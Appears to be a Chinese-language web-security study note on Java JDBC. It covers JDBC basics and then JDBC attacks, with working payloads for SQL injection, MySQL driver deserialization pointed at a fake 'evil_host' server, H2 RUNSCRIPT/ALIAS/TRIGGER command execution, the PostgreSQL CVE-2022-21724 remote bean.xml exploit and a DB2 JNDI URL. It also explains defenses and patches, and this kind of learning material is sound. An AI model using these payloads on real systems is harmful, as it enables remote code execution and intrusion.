





---
tags:
    - Java
    - Web Sec
comments: true
---

# 4 JDBC

## JDBC 基础

JDBC（Java DataBase Connectivity）是一种用于执行Sql语句的Java Api，即Java数据库连接，是Java语言中用来规范客户端程序如何来访问数据库的应用程序接口，可以为多种关系数据库提供统一访问，提供了诸如查询和更新数据库中数据的方法，是Java访问数据库的标准规范。简单理解为链接数据库、对数据库操作都需要通过jdbc来实现。

### JDBC Connection

Java通过`java.sql.DriverManager`来管理所有数据库的驱动注册，所以如果想要建立数据库连接需要先在`java.sql.DriverManager`中注册对应的驱动类，然后调用`getConnection`方法才能连接上数据库。

JDBC定义了一个叫`java.sql.Driver`的接口类负责实现对数据库的连接，所有的数据库驱动包都必须实现这个接口才能够完成数据库的连接操作。`java.sql.DriverManager.getConnection(xx)`其实就是间接的调用了`java.sql.Driver`类的`connect`方法实现数据库连接的。数据库连接成功后会返回一个叫做`java.sql.Connection`的数据库连接对象，一切对数据库的查询操作都将依赖于这个`Connection`对象。

JDBC连接数据库的一般步骤:

1. 注册驱动，`Class.forName("数据库驱动的类名")`。
2. 获取连接，`DriverManager.getConnection(url,user,passwd)`。

!!! example "MySQL JDBC 连接示例"

    ```java
    String CLASS_NAME = "com.mysql.jdbc.Driver";
    String URL = "jdbc:mysql://localhost:3306/mysql"
    String USERNAME = "root";
    String PASSWORD = "root";

    Class.forName(CLASS_NAME);// 注册JDBC驱动类
    Connection connection = DriverManager.getConnection(URL, USERNAME, PASSWORD);
    ```

#### 数据库配置信息

传统的Web应用的数据库配置信息一般都是存放在`WEB-INF`目录下的`*.properties`、`*.yml`、`*.xml`中的,如果是`Spring Boot`项目的话一般都会存储在jar包中的`src/main/resources/`目录下。常见的存储数据库配置信息的文件路径如：`WEB-INF/applicationContext.xml`、`WEB-INF/hibernate.cfg.xml`、`WEB-INF/jdbc/jdbc.properties`，一般情况下使用find命令加关键字可以轻松的找出来，如查找Mysql配置信息: `find 路径 -type f |xargs grep "com.mysql.jdbc.Driver"`。

#### Class.forName()

JDBC连接第一步是注册驱动，`Class.forName` 方法会加载类，`com.mysql.jdbc.Driver`的static静态语句块将被执行

!!! tips

    如果想反射某个类但不初始化，有以下两种方法：
    
    1. 使用`Class.forName("xxxx", false, loader)`方法，将第二个参数传入false。
    2. ClassLoader.load("xxxx");

```java
public class Driver extends NonRegisteringDriver implements java.sql.Driver {
    public Driver() throws SQLException {
    }

    static {
        try {
            DriverManager.registerDriver(new Driver());
        } catch (SQLException var1) {
            throw new RuntimeException("Can't register driver!");
        }
    }
}
```

值得注意的是，即使不调用`Class.forName`方法也能连接数据库，这利用了Java的`Java SPI(Service Provider Interface)`特性，`DriverManager`h会在初始化时调用`java.util.ServiceLoader`加载`META-INF/services`中的驱动类，并且会自动`Class.forName`加载。

### DataSource

在真实的Java项目中通常不会使用原生的JDBC的DriverManager去连接数据库，而是使用数据源(`javax.sql.DataSource`)来代替DriverManager管理数据库的连接。一般情况下在Web服务启动时候会预先定义好数据源，有了数据源程序就不再需要编写任何数据库连接相关的代码了，直接引用DataSource对象即可获取数据库连接了。

常见的数据源有：`DBCP`、`C3P0`、`Druid`、`Mybatis DataSource`，他们都实现于`javax.sql.DataSource`接口。

[Todo](/todo)

## JDBC Attack

JDBC 包括各种各样的数据库类型，每种都有自己的特性和安全问题，需要在实战中长期积累经验。这里介绍一些常见的 JDBC 攻击。

### JDBC SQL 注入

参考 [SQL注入](/Sec/Web/SQL)

本章节只讨论基于 JDBC 查询的 SQL 注入，暂不讨论基于 ORM 实现的框架注入，也不会过多的讨论注入的深入用法、函数等

#### SQL 注入原理

Java 代码片段如下:

??? note "Code"

    ```java
    // 获取用户传入的用户名
    String user = request.getParameter("user");

    // 定义最终执行的SQL语句，这里会将用户从请求中传入的host字符串拼接到最终的SQL
    // 语句当中，从而导致了SQL注入漏洞。
    String sql = "select host,user from mysql.user where user = '" + user + "'";

    // 创建预编译对象
    PreparedStatement pstt = connection.prepareStatement(sql);

    // 执行SQL语句并获取返回结果对象
    ResultSet rs = pstt.executeQuery();
    ```

如上示例程序，我们可以传入 `root' union select 1;--+` 去闭合 SQL 语句，实现注入

具体利用方式 PHP SQL 注入一致，此处不做介绍。

#### SQL 注入防御

通常情况下我们可以使用以下方式来防御 SQL 注入攻击：

1. 转义用户输入的特殊字符或对用户输入的数据进行过滤。
2. 限制用户传入的数据类型，如预期传入的是数字，那么使用 `Integer.parseInt()` 转换为数字。
3. 使用 `PreparedStatement` 预编译 SQL 语句，预编译的 SQL 语句会在执行前进行编译，从而避免了 SQL 注入攻击。

#### PreparedStatement SQL 预编译查询

将上面存在注入的 Java 代码改为 ? 占位的方式即可实现 SQL 预编译查询。
示例代码如下：

??? note "Code"

    ```java
    // 获取用户传入的用户名
    String id = request.getParameter("id");

    // 定义最终执行的SQL语句，这里会将用户从请求中传入的host字符串拼接到最终的SQL
    String sql = "select id, username from sys_user where id =? ";

    // 创建预编译对象
    PreparedStatement pstt = connection.prepareStatement(sql);

    // 设置参数
    pstt.setObject(1, id);

    // 执行SQL语句并获取返回结果对象
    ResultSet rs = pstt.executeQuery();
    ```

#### JDBC 预编译

JDBC 预编译查询分为客户端预编译和服务器端预编译，对应的 URL 配置项是 `:useServerPrepStmts`，当 `useServerPrepStmts` 为 false 时使用客户端(驱动包内完成 SQL 转义)预编译，`useServerPrepStmts` 为 true 时使用数据库服务器端预编译。

??? note "Code"

    ```java
    String sql = "select host,user from mysql.user where user = ? ";
    PreparedStatement pstt = connection.prepareStatement(sql);
    pstt.setObject(1, user);
    ```

    === "服务器端预编译"

        

    === "客户端预编译"

        

对应的 Mysql 客户端驱动包预编译代码在 com.mysql.jdbc.PreparedStatement 类的 setString 方法，如下：


预编译前的值为 root', 预编译后的值为'root\''

### JDBC 反序列化

MySQL JDBC 中包含一个危险的扩展参数： `autoDeserialize`。这个参数配置为 true 时，JDBC 客户端将会自动反序列化服务端返回的数据，造成RCE漏洞。

#### 漏洞原理

通过JDBC连接MySQL服务端时，会有几句内置的查询语句需执行，其中两个查询的结果集在MySQL客户端进行处理时会被`ObjectInputStream.readObject()`进行反序列化处理。如果攻击者可以控制JDBC连接设置项，那么可以通过设置其配置指向恶意MySQL服务触发MySQL JDBC客户端的反序列化漏洞。

可被利用的两条查询语句：

- SHOW SESSION STATUS
- SHOW COLLATION

**JDBC 连接参数：**

- `tatementInterceptors`：连接参数是用于指定实现 `com.mysql.jdbc.StatementInterceptor` 接口的类的逗号分隔列表的参数。这些拦截器可用于通过在查询执行和结果返回之间插入自定义逻辑来影响查询执行的结果，这些拦截器将被添加到一个链中，第一个拦截器返回的结果将被传递到第二个拦截器，以此类推。在 MySQL 8.0 中被`queryInterceptors`参数替代。
- `queryInterceptors`：一个逗号分割的Class列表（实现了`com.mysql.cj.interceptors.QueryInterceptor`接口的Class），在Query之间进行执行来影响结果。（效果上来看是在Query执行前后各插入一次操作）
- `autoDeserialize`:自动检测与反序列化存在BLOB字段中的对象。
- `detectCustomCollations`:驱动程序是否应该检测服务器上安装的自定义字符集/排序规则，如果此选项设置为“true”，驱动程序会在每次建立连接时从服务器获取实际的字符集/排序规则。


#### ServerStatusDiffInterceptor

!!! tips "版本要求"

    mysql-connector-java 8.0.19 及以下

    低版本利用区别详见参考资料《MYSQL JDBC反序列化解析》

`ServerStatusDiffInterceptor`是一个拦截器，在JDBC URL中设置属性`queryInterceptors`(8.0以下为`statementInterceptors`)为`ServerStatusDiffInterceptor`时，执行查询语句会调用拦截器的 `preProcess` 和 `postProcess` 方法，进而调用 `getObject ()` 方法。

```java title="Client"
import java.sql.*;

public class App {
    public static void main(String[] args) throws Exception {
        String ClassName = "com.mysql.jdbc.Driver";
        String JDBC_Url = "jdbc:mysql://evil_host:port/test?"+
                "autoDeserialize=true"+
                "&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor";
        String username = "root";
        String password = "root";
        Class.forName(ClassName);
        Connection connection = DriverManager.getConnection(JDBC_Url, username, password);
    }
}
```

让我们查看`ServerStatusDiffInterceptor`的调用链：

{loading=“lazy”}

在JDBC连接数据库的过程中，会在`populateMapWithSessionStatusValues`方法中调用`executeQuery("SHOW SESSION STATUS")`去查询，对结果进行处理的时候会调用`ResultSetUtil.resultSetToMap`。

```java
    private void populateMapWithSessionStatusValues(Map<String, String> toPopulate) {
        java.sql.Statement stmt = null;
        java.sql.ResultSet rs = null;

        try {
            try {
                toPopulate.clear();

                stmt = this.connection.createStatement();
                rs = stmt.executeQuery("SHOW SESSION STATUS");
                ResultSetUtil.resultSetToMap(toPopulate, rs);

            } finally {
                if (rs != null) {
                    rs.close();
                }

                if (stmt != null) {
                    stmt.close();
                }
            }
        } catch (SQLException ex) {
            throw ExceptionFactory.createException(ex.getMessage(), ex);
        }
    }
```

`resultSetToMap`最终进入`readObject`方法进行反序列化，若我们构造的恶意MySQL服务对于`SHOW SESSION STATUS`返回的数据中包含了恶意的序列化对象，那么就可以触发反序列化漏洞。

#### detectCustomCollations

!!! tips "版本要求"

    mysql-connector-java 5.1.19-6.0.6 （其中 5.1.49 版本不再调用`results.getObject()`，此利用链失效）

detectCustomCollations链会在`ConnectionImpl.buildCollationMapping()`中执行`executeQuery("SHOW COLLATION")`，随后调用`Util.resultSetToMap`方法，之后流程同上。

```java
	private void buildCollationMapping() throws SQLException {
		...

		if (versionMeetsMinimum(4, 1, 0) && getDetectCustomCollations()) {

			java.sql.Statement stmt = null;
			java.sql.ResultSet results = null;

			try {
					sortedCollationMap = new TreeMap<Long, String>();
					customCharset = new HashMap<Integer, String>();
					customMblen = new HashMap<String, Integer>();

					stmt = getMetadataSafeStatement();

					try {
						results = stmt.executeQuery("SHOW COLLATION");
						if (versionMeetsMinimum(5, 0, 0)) { // 需要满足 MySQL 版本大于 5.0.0
							Util.resultSetToMap(sortedCollationMap, results, 3, 2);
						} else {
							while (results.next()) {
								sortedCollationMap.put(results.getLong(3), results.getString(2));
							}
						}
					} 
                    ...
            }
		}
        ...
	}
```
#### 修复

**ServerStatusDiffInterceptor链：**

8.0.20版本中，`com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor#populateMapWithSessionStatusValues`不再调用`resultSetToMap()`即getObject()。此利用链失效

**detectCustomCollations链：**
mysql-connector-java 8.0以上不再在`com.mysql.cj.jdbc.ConnectionImpl`中直接执行及获取"SHOW COLLATION"语句，调用链更改，不再调用getObject()方法，此链失效

#### PoC

[Todo](/todo)

参考工具 [MySQL Fake Server](https://github.com/fnmsd/MySQL_Fake_Server){:target="_blank"}


### Other DB

#### H2

H2 是一个用 Java 开发的嵌入式数据库，它本身只是一个类库，即只有一个 jar 文件，可以直接嵌入到应用项目中。H2 主要有如下三个用途：

1. 可以同应用程序打包在一起发布，这样可以非常方便地存储少量结构化数据。
2. 用于单元测试。启动速度快，而且可以关闭持久化功能，每一个用例执行完随即还原到初始状态。
3. 作为缓存，即当做内存数据库，作为NoSQL的一个补充。当某些场景下数据模型必须为关系型，可以拿它当Memcached使，作为后端MySQL/Oracle的一个缓冲层，缓存一些不经常变化但需要频繁访问的数据，比如字典表、权限表

**INIT RunScript RCE**

H2连接的时候可以通过设置INIT执行一段SQL脚本，从而实现RCE。

```sql title="rce.sql"
CREATE ALIAS EXEC AS 'String exec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "su18";}';CALL EXEC ('calc')
```

控制JDBC URL为`jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8000/rce.sql'`即可执行脚本，但该方法需要有正确的账户和密码登录。

**Alias Script RCE**

利用加载字节码实现不出网RCE，类似于SPEL以及OGNL注入内存马。

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : ""; }$$;CALL SHELLEXEC('whoami');
```

**PoC**
``` 
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS EXECA AS 'String shellexec(String cmd) throws java.io.IOException{Runtime.getRuntime().exec(cmd)\\;return \"hacker\"\\;}'\\;CALL EXECA('calc')
```

**TRIGGER Script RCE**

除了ALIAS别名还可以用TRIGGER手写groovy或者js代码去RCE。

```sql
// groovy
Class.forName("org.h2.Driver");
String groovy = "@groovy.transform.ASTTest(value={" + " assert java.lang.Runtime.getRuntime().exec(\"calc\")" + "})" + "def x";
String url    = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE ALIAS T5 AS '" + groovy + "'";

// js
CREATE TRIGGER poc2 BEFORE SELECT ON
INFORMATION_SCHEMA.TABLES AS $$//javascript
java.lang.Runtime.getRuntime().exec("calc") $$;
```

TRIGGER不能在INIT处使用

#### PostgreSQL

在 PostgreSQL 数据库的 jdbc 驱动程序中发现一个安全漏洞（CVE-2022-21724）。当攻击者控制 jdbc url 或者属性时，使用 PostgreSQL 数据库的系统将受到攻击。 pgjdbc 根据通过 `authenticationPluginClassName`、`sslhostnameverifier`、`socketFactory` 、`sslfactory`、`sslpasswordcallback` 连接属性提供类名实例化插件实例。但是，驱动程序在实例化类之前没有验证类是否实现了预期的接口。这可能导致通过任意类加载远程代码执行。

!!! tips "版本要求"

    9.4.1208 <=PgJDBC <42.2.25

　　42.3.0 <=PgJDBC < 42.3.2

**漏洞复现**

=== "pom.xml"

    ```xml
    <dependencies>
        <!-- https://mvnrepository.com/artifact/org.postgresql/postgresql -->
        <dependency>
            <groupId>org.postgresql</groupId>
            <artifactId>postgresql</artifactId>
            <version>42.3.1</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.springframework/spring-context-support -->
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-context-support</artifactId>
            <version>5.3.23</version>
        </dependency>
    </dependencies>
    ```

=== "pgRCE.java"

    ```java
    import java.sql.Connection;
    import java.sql.DriverManager;

    public class pgRCE {
        public static void main(String[] args) throws Exception{
            String socketFactoryClass = "org.springframework.context.support.ClassPathXmlApplicationContext";
            String socketFactoryArg = "http://127.0.0.1:7978/bean.xml";
            String jdbcUrl = "jdbc:postgresql://127.0.0.1:5432/test/?socketFactory="+socketFactoryClass+ "&socketFactoryArg="+socketFactoryArg;
            Connection connection = DriverManager.getConnection(jdbcUrl);
        }
    }
    ```
=== "bean.xml"

    ```xml
    <beans xmlns="http://www.springframework.org/schema/beans"
        xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:p="http://www.springframework.org/schema/p"
        xsi:schemaLocation="http://www.springframework.org/schema/beans
            http://www.springframework.org/schema/beans/spring-beans.xsd">
    <!--    普通方式创建类-->
    <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>calc.exe</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
    ```

{loading=“lazy”}

**漏洞分析**

调用链如下
{loading=“lazy”}

同时还存在任意文件写入漏洞，通过指定loggerLevel和loggerFile参数即可将jdbc://的URL内容写入指定文件


#### IBM DB2 JNDI注入

payload:`jdbc:db2://127.0.0.1:50000/BLUDB:clientRerouteServerListJNDIName=ldap://127.0.0.1:1099/evil;`


## 参考资料

- [JDBC数据库汇总Attack研究](https://www.cnblogs.com/F12-blog/p/18144377){:target="_blank"}
- [小白看得懂的MySQL JDBC 反序列化漏洞分析](https://xz.aliyun.com/t/8159){:target="_blank"}
- [MYSQL JDBC反序列化解析](https://tttang.com/archive/1877){:target="_blank"}
- [Java JDBC](https://wiki.wgpsec.org/knowledge/ctf/JDBC-Unserialize.html){:target="_blank"}
- [PostgresQL JDBC Drive 任意代码执行漏洞(CVE-2022-21724)](https://xz.aliyun.com/t/11812?time__1311=Cq0xuD07wxRDlhzG7K6e4rfT4Y53x){:target="_blank"}